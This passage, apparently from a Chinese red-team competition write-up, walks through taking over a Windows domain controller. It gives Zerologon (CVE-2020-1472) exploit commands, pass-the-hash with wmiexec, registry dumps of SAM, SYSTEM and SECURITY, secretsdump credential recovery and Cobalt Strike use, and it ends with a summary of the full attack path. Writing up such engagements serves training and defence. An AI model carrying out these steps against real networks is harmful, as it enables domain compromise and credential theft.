   * 

    
    
    python3poc.py 域名/域控主机名\$@域控ip-just-dc -no-pass

  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220330202450.png)  
拿到了域管理员账号和hash，赶紧登录域控，这里使用wmiexec进行连接，下图登录成功，起飞！  

  * 

    
    
    python3wmiexec.py -hashes xxx:xxx 域名/管理员用户名@域控ip

  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220330202452.png)  
Powershell上个cs的马，使用如下命令获取dump域控保存在本地注册表的原始主机账号密码。  

  *   *   * 

    
    
    regsave HKLM\SYSTEM system.saveregsave HKLM\SAM sam.saveregsave HKLM\SECURITY security.save

  
再使用脚本还原主机密码：  

  * 

    
    
    python3secretsdump.py -sam sam.save -system system.save -securitysecurity.save LOCAL

  
得到$MACHINE的hash：  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220330202453.png)  

  * 

    
    
    python3reinstall_original_pw.py 域控主机名域控ip$MACHINEhash

  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220330202454.png)  
那么到这一步之后，漏洞利用就完成了。再到cs上hashdump获取密码，拿着密码登录域控，有了域控就可以查看域内所有用户和终端服务器了，接下来的事就是搜集各种信息数据了。  
大功告成！打完收工！  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220330202455.png)  
 **3**  
 **总结**  
最后，梳理一下攻击路径。  
首先，利用OA漏洞拿到邮箱账号密码；  
然后钓鱼拿到内网域终端；  
接着定位域控，使用CVE-2020-1472poc确定存在漏洞的域控；  
随后重置域控机器密码，拿到域控命令执行权限，上线cs；  
最后还原机器密码，读取域控内存拿到明文密码，登录域控。  
不到一天的时间，从外网到拿下域控，思路正确，效率自然提升。  
珍惜那些可以为了比赛彻夜不眠、与小伙伴协同奋斗的岁月吧，那是为了自己而努力绽放的时光，短暂又美好。

  